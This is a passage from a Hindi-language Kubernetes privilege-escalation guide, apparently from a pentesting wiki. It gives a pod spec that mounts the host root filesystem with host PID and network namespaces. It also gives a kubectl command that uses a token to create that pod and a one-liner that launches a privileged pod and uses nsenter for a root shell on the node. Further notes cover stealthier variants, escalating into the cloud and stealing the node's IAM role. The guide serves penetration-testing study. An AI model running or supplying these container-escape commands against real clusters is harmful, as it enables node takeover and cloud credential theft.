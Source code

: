 ```yaml
hostNetwork: true # Use the host's network namespace https://www.man7.org/linux/man-pages/man7/network_namespaces.7.html
hostPID: true # Use the host's pid namespace https://man7.org/linux/man-pages/man7/pid_namespaces.7.htmlpe_
volumes:
- name: host-volume
hostPath:
path: /
```
{% endcode %}

पॉड बनाएं:
```bash
kubectl --token $token create -f mount_root.yaml
```
एक-लाइनर [इस ट्वीट](https://twitter.com/mauilion/status/1129468485480751104) से और कुछ अतिरिक्त के साथ:
```bash
kubectl run r00t --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"imagePullPolicy":"IfNotPresent","securityContext":{"privileged":true}}]}}'
```
अब जब आप नोड पर भाग सकते हैं, तो पोस्ट-एक्सप्लॉइटेशन तकनीकों की जांच करें:

#### Stealth

आप शायद **stealthier** होना चाहते हैं, निम्नलिखित पृष्ठों में आप देख सकते हैं कि यदि आप केवल पिछले टेम्पलेट में उल्लेखित कुछ विशेषाधिकारों को सक्षम करके एक पॉड बनाते हैं, तो आप क्या एक्सेस कर पाएंगे:

* **Privileged + hostPID**
* **Privileged only**
* **hostPath**
* **hostPID**
* **hostNetwork**
* **hostIPC**

_आप पिछले विशेषाधिकार प्राप्त पॉड कॉन्फ़िगरेशन बनाने/दुरुपयोग करने के उदाहरण [_https://github.com/BishopFox/badPods_](https://github.com/BishopFox/badPods) में पा सकते हैं।_

### Pod Create - Move to cloud

यदि आप **create** कर सकते हैं एक **pod** (और वैकल्पिक रूप से एक **service account**) तो आप **cloud environment में विशेषाधिकार प्राप्त करने में सक्षम हो सकते हैं** एक पॉड या सेवा खाते को **cloud roles सौंपकर** और फिर इसे एक्सेस करके।\
इसके अलावा, यदि आप **host network namespace** के साथ एक **pod** बना सकते हैं, तो आप **node** इंस्टेंस की **IAM** भूमिका **चुरा** सकते हैं।

अधिक जानकारी के लिए जांचें:

{% content-ref url="pod-escape-privileges.md" %}
[pod-escape-privileges.md](pod-escape-privileges.md)
{% endcontent-ref %}

### **Create/Patch Deployment, Daemonsets, Statefulsets, Replicationcontrollers, Replicasets, Jobs and Cronjobs**
